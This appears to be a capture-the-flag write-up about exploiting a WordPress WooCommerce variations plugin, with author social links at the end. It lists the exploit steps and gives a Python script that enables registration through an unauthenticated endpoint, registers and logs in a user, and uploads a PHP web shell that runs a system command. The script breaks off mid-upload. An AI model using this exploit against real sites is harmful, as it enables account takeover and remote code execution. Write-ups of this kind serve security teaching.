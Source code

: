 **Steps to Exploit:**

1. Enable User Registration
2. Create a user with a username that contains the word "admin."
3. Upload a malicious PHP file containing a web shell.
4. Read the FLAG from /flag.txt.

**Exploitation:**

```python
import requests
import io
from urllib.parse import *

URL = 'http://100.25.255.51:9090/'

class Exploit:
	def __init__(self, username, password, url=URL):
		self.url = url
		self.username = username
		self.password = password
		self.session = requests.session()

	def enableRegistration(self):
		req = self.session.get(urljoin(self.url, '/wp-json/woo-variations/v1/registration-enable/'))

		return '[+] Enable Registration Success' if req.status_code == 200 else '[+] Enable Registration Failed'

	def createUser(self):
		initSess = self.session.get(urljoin(self.url, '/wp-login.php?action=register'))
		data = {
		'user_login1': self.username,
		'user_email1': f'{self.username}@test.com',
		'user_password1': self.username,
		'wp-submit1': 'Register',
		'testcookie': 1
		}

		req = self.session.post(urljoin(self.url, 'wp-login.php?action=register'), data=data, allow_redirects=False)

		return '[+] Register Success' if req.status_code == 200 else '[+] Register Failed'

	def loginUser(self):
		initSess = self.session.get(urljoin(self.url, '/wp-login.php'))
		data = {
		'log': self.username,
		'pwd': self.password,
		'wp_submit': 'Log In',
		'testcookie': 1
		}

		req = self.session.post(urljoin(self.url, 'wp-login.php'), data=data, allow_redirects=False)

		return '[+] Login Successful' if req.status_code == 302 else '[+] Login Failed'

	def uploadShell(self):
		php_content = b'<?php system("cat /flag.txt"); ?>'

		files = {'gallery_picture': ('b4nua.php', io.BytesIO(php_content))}
		data = {
		'action': 'set_gallery_picture',
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn